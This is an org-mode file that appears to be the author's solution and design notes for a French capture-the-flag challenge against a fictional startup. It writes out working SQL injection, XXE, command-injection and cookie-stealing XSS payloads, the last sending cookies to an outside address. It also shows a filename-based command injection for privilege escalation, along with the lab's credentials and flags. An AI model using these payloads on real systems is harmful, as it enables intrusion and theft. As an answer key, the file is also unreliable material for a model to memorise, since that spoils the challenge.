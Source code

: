 * Compagnies
** Startup 1 — WTIIaaS
   - What Time Is It as a Service
   - Interface pour avoir l'heure
* Solutions
** DONE Breaking into the intranet
   CLOSED: [2017-03-10 Fri 21:15]
   In /old/ (leaked through robots.txt) resides a crypto challenge. Once "reversed", a login to the intranet is given.
   Email: zana.elbert@wtiiaas.csg
   Password: FallOutBoyzForever1121
   It's a simple XOR with a satic ROT-n key.
   with open("out.bin", 'rb') as output:
     print("".join(magicify(output.read() ,key)))
** DONE Blind SQL injection API key leak
   CLOSED: [2017-02-25 Sat 01:12]
   <key>' or (8=substr((select key_guid from apikeys limit 1,1),1,1) and sleep(1)) #</key>
** DONE XXE
   CLOSED: [2017-02-25 Sat 01:12]
   In the API, free action `getTime' is vulnerable to XXE
<?xml version="1.0"?>
 <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/api/api.php" >]>
<WTIIaaS>
  <identity>
    <key>&xxe;</key>
  </identity>
  
  <query action="getTime"/>
</WTIIaaS>
        
** DONE RCE (Command injection) — Requires premium API key to have leaked beforehand, possible through various means
   CLOSED: [2017-02-25 Sat 01:12]
   In the API, premium action `getTimeWithFormat' is vulnerable to a command injection in the `format' field
<?xml version="1.0"?>
<WTIIaaS>
  <identity>
    <key>85922064</key>
  </identity>
  
  <query action="getTimeWithFormat" format='%m";id;f="' />
</WTIIaaS>

** DONE Password dump
   CLOSED: [2017-02-25 Sat 01:12]
| Christia | Shore | shore.christia@wtiiaas.csg | f6432274349b5cb93433f8ed886a3f37 | winter |
Password reuse on pastebin, indexed @ http://pastebin.com/EFxqS501, uploaded Fri Feb 24 21:19:26 EST 2017
One of the ways to get to the intranet

** DONE INSERT SQLi in User-Agent ("logging" mechanism)
   CLOSED: [2017-02-25 Sat 01:13]
*** POC
   User-Agent: ' or extractvalue(1,concat(0x7e,(SELECT * from flag limit 0,1))) or '
   
   CSG_SomeThingsAreStrange
*** SQL login → logging:JF8KI4iYQWNbjWtn

** DONE Steal the CEO's cookies
   CLOSED: [2017-03-01 Wed 23:14]
*** PoC
    <img id=f src=x /><script>var elem=document.getElementById('f');elem.src="http://192.168.0.199:8080/"+document.cookie;</script>
** DONE Extract the banking info from /home/sysadmin/banking.txt.pgp
   CLOSED: [2017-03-10 Fri 01:55]
   From a RCE, proceed to privilege escalate and extract the key from .bash_history
*** Local privilege escalation
    Vulnerable bash script running through crontab, as sysadmin
    Create files in /tmp with filename containing trailing bash commands.
    ie run $ touch "/tmp/a;cp -R \$HOME ."
    This will copy sysadmin's homedir to /tmp. You can chain commands by creating more files. ie to chmod 777 the new directory.
*** Decrypted file content
    $ gpg --passphrase "@\!YOUcantGUESSthis#@\!" --decrypt banking.txt.pgp
    Bank account
    ------------
    SWIFT/BIC: CSGS-US-35-A9F
    Password : HS9;~7HP9P@tYm;8nvo[|mL;:D%BwUh5-X'0!v%I
    
* Todos
** TODO Make mysql start automatically
** WONTFIX Fix images in team (CFO/CTO)
** DONE Make API documentation in HTML
   CLOSED: [2017-03-09 Thu 16:01]
** WONTFIX Make employees.php page
** DONE Index a database dump [identitygenerator.py] → 
   CLOSED: [2017-02-24 Fri 21:18]
** DONE Make intranet login
   CLOSED: [2017-02-25 Sat 00:21]
** DONE Add User-Agent sql injection
   CLOSED: [2017-02-25 Sat 01:10]
** DONE Implement a messaging system
   CLOSED: [2017-02-25 Sat 18:11]
** DONE Implement a XSS bot for the CEO's account flag
   CLOSED: [2017-03-08 Wed 00:16]
   See ./src/wtiiaas/scripts/xss.js
** DONE Automate the XSS bot
   CLOSED: [2017-03-10 Fri 15:47]
*** See ./src/wtiiaas/scripts/xss.sh

** WONTFIX Make the instructions HTML
** DONE Privilege escalation from RCE
   CLOSED: [2017-03-10 Fri 00:29]
   Bash crontab running as sysadmin, banking file is owned by sysadmin
   See ./src/wtiiaas/scripts/deletetmp.sh
** DONE Generate PGP file with banking info
   CLOSED: [2017-03-01 Wed 22:13]
*** Command
    $ gpg --batch --yes --passphrase "@\!YOUcantGUESSthis#@\!" --output banking.txt.pgp --symmetric banking.txt
** DONE Add extra ways to login to intranet
   CLOSED: [2017-03-10 Fri 21:35]
** In Process Clean database before export
** DONE Make app use dedicated SQL user (nonroot)
   CLOSED: [2017-03-02 Thu 00:47]
** TODO Fix Dockerfile
** TODO Make webserver non www-data read-ONLY
** TODO Modify root password from ENV variable that will be set when container is RUN
* Flags
** CSG-CIACantBreakThisCrapto (Crypto intranet message)
** CSG-WowItsAsIfXSSIsActuallyABigDeal (XSS)
** CSG_SomeThingsAreStrange (SQLi User-Agent)
* Instructions
Camarades, l'heure est grave. Les écrits du camarade Mao s'avèrent véridique: l'impérialisme de l'Ouest prend notre patrie en otage! Voilà pourquoi nous avons créés une unité super-méga-secrète qui nous permettera de partir en cyber-guerre contre ces américains assoiffés de profit! Ces jeunes programmeurs milliardaires de 20 ans causent un embarras incomensurable à la patrie, nous nous devons de lutter!

Votre mission est de vous infiltrer dans le parc informatique d'une startup « high-tech » américaine et d'exfiltrer un maximum d'information. Cette informatoin sera ensuite relayée au politburo du Comité central du parti Communiste.

Vos tâches:
- Obtenir la liste complète des employés
  - employees.txt
  - Nom, prénom, password
    
- Trouver le mot de passe du CEO
  - CEO-pass.txt
  - Mot de passe en clair, hashé = moitié des points
    
- Obtenir de l'exécution de code sur le serveur web
  - code-exec.txt
    - Instruction pour reproduire l'exécution de code (quelques lignes avec preuve de concept (PoC))
    
- Obtenir 
  
- Obtenir les privilèges `root' sur le serveur
  - Remise: rootwriteup.txt

- Quelques flags sont cachés sur le serveur.
  - flags.txt
    - Format: CSG_[a-zA-Z]+

  et votre patrie a besoin de vous afin de regagner du terrain sur l'économie mondiale. Ces damnés capitalistes de l'ouest nous mennent une lutte d'innovation sans relâche et semblent tous être  américains 

 votre patrie a besoin de vous. 
